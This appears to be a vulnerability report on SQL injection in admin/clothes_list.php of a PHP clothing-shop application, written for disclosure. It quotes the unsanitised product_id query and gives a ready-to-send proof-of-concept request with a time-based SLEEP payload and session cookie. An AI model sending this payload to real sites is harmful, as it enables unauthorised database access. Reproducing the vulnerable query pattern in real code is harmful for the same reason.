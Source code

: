 ### Vulnerability file address

`admin/clothes_list.php` from line 5,The $product_id parameter is controllable, the parameter product_id can be passed through get, and the $product_id is not protected from sql injection, resulting in sql injection

```php
if(isset($_GET['action']) && $_GET['action']!="" && $_GET['action']=='delete')
{
$product_id=$_GET['product_id'];
///////picture delete/////////
$result=mysqli_query($con,"select product_image from products where product_id='$product_id'")
or die("query is incorrect...");
```

### POC

```http
GET /admin/clothes_list.php?action=delete&product_id=aaaaa' AND (SELECT 1853 FROM (SELECT(SLEEP(5)))zDGS)-- ZvnN HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220729192923919](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729192923.png)
